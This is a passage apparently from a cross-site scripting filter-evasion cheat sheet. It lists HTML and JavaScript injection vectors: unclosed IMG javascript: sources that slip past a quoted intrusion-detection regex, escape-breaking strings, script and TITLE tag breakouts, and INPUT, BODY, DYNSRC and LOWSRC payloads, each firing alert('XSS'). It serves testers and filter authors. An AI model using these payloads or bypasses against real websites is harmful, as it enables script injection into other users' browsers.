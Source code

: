 Unlike Firefox, the IE rendering engine (Trident) doesn't add extra data to your page, but it does allow the `javascript:` directive in images. This is useful as a vector because it doesn't require a close angle bracket. This assumes there is any HTML tag below where you are injecting this XSS vector. Even though there is no close `\>` tag the tags below it will close it. A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following network intrusion detection system (NIDS) regex: `/((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/` because it doesn't require the end `\>`. As a side note, this was also affective against a real world XSS filter using an open ended `<IFRAME` tag instead of an `<IMG` tag.

```html
<IMG SRC="`<javascript:alert>`('XSS')"
```

### Escaping JavaScript Escapes

If an application is written to output some user information inside of a JavaScript (like the following: `<SCRIPT>var a="$ENV{QUERY\_STRING}";</SCRIPT>`) and you want to inject your own JavaScript into it but the server side application escapes certain quotes, you can circumvent that by escaping their escape character. When this gets injected it will read `<SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>` which ends up un-escaping the double quote and causing the XSS vector to fire. The XSS locator uses this method:

```js
\";alert('XSS');//
```

An alternative, if correct JSON or JavaScript escaping has been applied to the embedded data but not HTML encoding, is to finish the script block and start your own:

```js
</script><script>alert('XSS');</script>
```

### End Title Tag

This is a simple XSS vector that closes `<TITLE>` tags, which can encapsulate the malicious cross site scripting attack:

```html
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
```

#### INPUT Image

```html
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
```

#### BODY Image

```html
<BODY BACKGROUND="javascript:alert('XSS')">
```

#### IMG Dynsrc

```html
<IMG DYNSRC="javascript:alert('XSS')">
```

#### IMG Lowsrc

```html
<IMG LOWSRC="javascript:alert('XSS')">
```
